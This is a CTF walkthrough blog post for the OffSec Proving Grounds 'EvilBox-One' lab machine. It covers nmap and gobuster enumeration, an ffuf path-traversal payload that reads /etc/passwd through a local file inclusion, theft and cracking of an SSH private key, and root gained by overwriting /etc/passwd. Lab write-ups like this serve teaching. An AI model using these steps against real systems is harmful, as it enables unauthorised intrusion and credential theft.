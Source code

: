 ```yaml
---
title: "EvilBox-One Walkthrough"
date: 2023-9-19 
img_path: ../../../assets/image
image: evilbox.png
categories: [Proving grounds, intermediate,root,]
tags: [ctf, nmap, passwd, enumeration, gobuster, LFI, ssh, Linux, PenTesting]     # TAG names should always be lowercase
---
```


> Welcome back to another writeup of the Proving Grounds Play lab machines and CTF challenge. Today, I am going to present EvilBox-One Walkthrough.**[EvilBox-One](https://portal.offsec.com/labs/play)**  is a Linux Machine from Offsec Proving Grounds rated as intermediate by the Community.. We shall start with `nmap` scan to see the open ports on the machine. We will later  use `gobuster` for directory brute force and later we shall login with `SSH`  which will give us the initial access to the system. Finally we shall do privilege escalation by exploiting incorrect permissions in `/etc/passswd`file to get root privileges.
{: .prompt-tip }

`Ready, set, boot and root!` 

## Scanning and Enumeration

I started with enumerating the host by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.  We have used -sC for default 
scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:


```shell                              
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ nmap -sC -sV -oA initial  192.168.201.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 11:25 EAT
Nmap scan report for 192.168.201.212
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds

```
                                                           
  We see `ssh` port 22 open and `http` port 80 open which is running an Apache 2.4.38 web server.   

  Looking at port 80 on the web browser, we see a default Apache2 debian page. 


  ![image](../../assets/image/posts/evilbox1/ev1.png)

  

  Looking at the robots.txt, I found a message saying . "Hello H4x0r" which might be a potential username.
  ![image](../../assets/image/posts/evilbox1/ev2.png)


  Since `http` port 80 is open, we need to do some directory bruteforcing and look at what directories are accessible. We're going to use `gobuster` which is a Directory/File, DNS and VHost busting tool written in Go. This took a little bit to run, but it did find something interesting. It found a file/folder called /secret.

  ```shell                                
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]
/secret               (Status: 200) [Size: 4]
Progress: 32804 / 882244 (3.72%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32814 / 882244 (3.72%)
===============================================================
Finished
===============================================================
  ```
 However that was nothing more than a blank page. So, I further bruteforced to find other paths inside of it.
 ![image](../../assets/image/posts/evilbox1/ev3.png)

Gobuster really took some time but i finally found a file called /secret/evil.php. 

```shell                                    
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
Progress: 53868 / 882244 (6.11%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 53878 / 882244 (6.11%)
===============================================================
Finished
===============================================================
                                                                   
```
However, I had no idea what to do with this file, since it really displayed nothing, but an empty page when accessed.
![image](../../assets/image/posts/evilbox1/ev4.png)
The script is empty and since I have nowhere to go from there, I fuzzed the GET parameter on it.

```shell                                                                                                                                     
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ ffuf -c -r -u http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd  -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 3522ms]
    * FUZZ: command

:: Progress: [4715/4715] :: Job [1/1] :: 196 req/sec :: Duration: [0:00:59] :: Errors: 0 ::


```
Up to now, we found that `command` allows the inclusion of local files of the target.
![image](../../assets/image/posts/evilbox1/ev5.png)

We have to search sensitive files that would give me access to the machine. Since I have a user, I tried checking files from its home directory. Luckily, I found a public key in the /home/mowree/.ssh/authorized_keys file. Then, I checked if I can access the private key and I could.

![image](../../assets/image/posts/evilbox1/ev7.png)
Ok great, so, I am going to copy this and save it as id_rsa on my local machine and I am going to use the famous ssh2john to extract the hash and see if I can crack it.
The private key is encrypted by a passphrase. Now, We have to crack the passphrase. So, I copied the content to a file “id_rsa” on my local machine,
 ![image](../../assets/image/posts/evilbox1/ev8.png)

After coping the id_rsa to my machine i changed its permissions

![image](../../assets/image/posts/evilbox1/ev6.png)

We have to crack the hash of the passphrase. Therefore, we need a tool called ssh2john to generate the hash.
![image](../../assets/image/posts/evilbox1/ev9.png)


Now that I had the hash, I used John the Ripper to crack the hash, that gave us the passphrase to decrypt the id_rsa file.
![image](../../assets/image/posts/evilbox1/ev10.png)





## Initial Access

After successfully cracking the passphrase. Now, we can easily log in.
 ![image](../../assets/image/posts/evilbox1/ev11.png)

We have managed to get the user flag now we need to find a way to  escalate our privileges to root.
 ![image](../../assets/image/posts/evilbox1/ev12.png)


## Privilege Escalation

`Let's get root`
After some research i found that we can write as a low-privileged user to /etc/passwd?
 ![image](../../assets/image/posts/evilbox1/ev13.png)

I used openssl to generate the hash of the word “root”.
 ![image](../../assets/image/posts/evilbox1/ev14.png)


 Then, I copied the hash to the /etc/passwd file of the target. I updated the password of the user root as follows.

 ![image](../../assets/image/posts/evilbox1/ev15.png)


 We will use the password “root”  we created with openssl to get access to the root user.
  ![image](../../assets/image/posts/evilbox1/ev16.png)

We now have to find the final flag to finish the challenge. We need to change the current directory to root and find the flag file, which can be seen in the screenshot given below.
  ![image](../../assets/image/posts/evilbox1/ev17.png)

  ## Conclusion
  
And with that, we have successfully completed the CTF challenge for EvilBox-One machine. I hope you’ve enjoyed this machine and this EvilBox-One walkthrough.

Did you find another way to attack this machine? Do you think I did something wrong or that you would have done it differently?  Let’s help everyone learn.

If you are enjoying these posts, consider buying me a cup of coffee. I spend a lot of time creating these posts that I know will help others, so any support you can provide will help me stay on track.

